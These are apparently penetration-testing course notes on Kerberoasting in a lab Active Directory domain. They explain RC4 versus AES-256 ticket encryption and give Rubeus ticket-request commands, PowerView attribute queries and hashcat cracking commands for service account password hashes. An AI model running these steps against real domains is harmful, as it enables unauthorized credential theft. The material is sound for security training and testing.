 ## RC4 AND AES ENCRYPTED TICKETS
When performing Kerberoasting in most environments, we will retrieve hashes that begin with `$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`. While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using [Hashcat](https://github.com/hashcat/hashcat/pull/1955), it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen. Let's walk through an example.

### Example
we have this user, we retrieve the tgs and see that its using `$23$`, why? cause tool requests rc4
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*te<snip>
```

Checking with PowerView, we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0`. The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.
```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```

### cracking RC4 encrypted TGS tickets
```shell-session
$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
## account with AES encryption:

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.
```powershell-session
 .\Rubeus.exe kerberoast /user:testspn /nowrap
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*
```
To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)`
```shell-session
$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
